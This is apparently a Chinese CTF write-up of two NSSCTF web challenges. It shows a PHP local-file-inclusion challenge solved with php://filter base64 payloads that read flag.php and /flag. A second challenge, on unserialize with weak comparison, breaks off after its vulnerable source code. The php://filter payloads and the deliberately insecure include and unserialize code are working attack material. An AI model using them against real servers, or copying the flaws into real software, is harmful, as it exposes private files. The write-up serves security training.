 ## [SWPUCTF 2022 新生赛]ez_ez_php(revenge)
>url:https://www.nssctf.cn/problem/2821
```php
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php 
```
代码的意思是确认file的前三个字符是php，刚好用php伪协议读flag就包含了前三个字符是php的前提条件

构造payload：
```
http://node5.anna.nssctf.cn:27422/?file=php://filter/read=convert.base64-encode/resource=flag.php
```
![alt text](image-126.png)
然后解码
```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");


echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_ '/flag' "."<br/>";
echo "换个思路，试试PHP伪协议呢";

```
提示了flag在/flag里，修改payload
```
http://node5.anna.nssctf.cn:27422/?file=php://filter/read=convert.base64-encode/resource=/flag
```
![alt text](image-127.png)
再解码得到flag
NSSCTF{8e567b75-c892-40a9-9f28-698640521510}

## [HUBUCTF 2022 新生赛]checkin
>url:https://www.nssctf.cn/problem/2602
>知识点：反序列化，弱比较

```php
<?php
show_source(__FILE__);
$username  = "this_is_secret"; 
$password  = "this_is_not_known_to_you"; 
include("flag.php");//here I changed those two 
$info = isset($_GET['info'])? $_GET['info']: "" ;
$data_unserialize = unserialize($info);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
    echo $flag;
}else{
    echo "username or password error!";

```